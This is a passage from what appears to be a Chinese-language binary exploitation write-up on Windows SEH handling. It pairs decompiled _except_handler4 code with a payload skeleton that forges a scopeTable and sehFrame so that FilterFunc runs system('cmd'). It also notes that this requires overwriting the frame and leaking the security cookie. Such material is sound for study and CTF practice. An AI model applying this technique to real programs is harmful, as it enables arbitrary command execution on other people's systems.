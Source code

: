 ```
        *(_DWORD *)(sehFrame - 4) = &exceptionPointers;
        if ( tryLevel != -2 )
        {
            while ( 1 )
            {
                v8 = tryLevel + 2 * (tryLevel + 2);
                filterFunc = (int (__fastcall *)(_DWORD, _DWORD))*(&scopeTable_1->GSCookieXOROffset + v8);
                scopeTableRecord = (_EH4_SCOPETABLE_RECORD *)((char *)scopeTable_1 + 4 * v8);
                encloseingLevel = scopeTableRecord->EnclosingLevel;//-2跳出后面的循环
                scopeTableRecord_1 = scopeTableRecord;
                if ( filterFunc )
                {
                    // 调用 FilterFunc
                    filterFuncRet = _EH4_CallFilterFunc(filterFunc);
                    ......
                    if ( filterFuncRet > 0 )
                    {
                        ......
                        // 调用 HandlerFunc
                        _EH4_TransferToHandler(scopeTableRecord_1->HandlerFunc, v5 + 16);
                        ......
                    }
                }
                ......
                tryLevel = encloseingLevel;
                if ( encloseingLevel == -2 )
                    break;
                scopeTable_1 = scopeTable;
            }
            ......
        }
    }
  ......
}


```

这里要劫持 filterFunc，就需要劫持 scopeTable。这需要满足两个条件：需要能覆盖掉 sehFrame 结构体，并且能泄露 securityCookies。

### payload

```
#伪造scopeTable
scopeTable = [
    0x0FFFFFFFE,    #GSCookieOffset
    0,              #GSCookieXOROffset
    0x0FFFFFFCC,    #EHCookieOffset
    0               #EHCookieXOROffset
]
scopeTable_Record = [
    0xfffffffe,     #EnclosingLevel=-2
    system('cmd'),  #FilterFunc 
    0
]
sehFrame = [
    Next,               #original
    ExceptionHandler,   #original
    scopeTable_addr,    #fake
    trylevel            #如果要伪造trylevel，就需要修改scopeTable，否则就不篡改，维持original
]
payload =  flat(scopeTable + scopeTable_Record)
payload += padding
```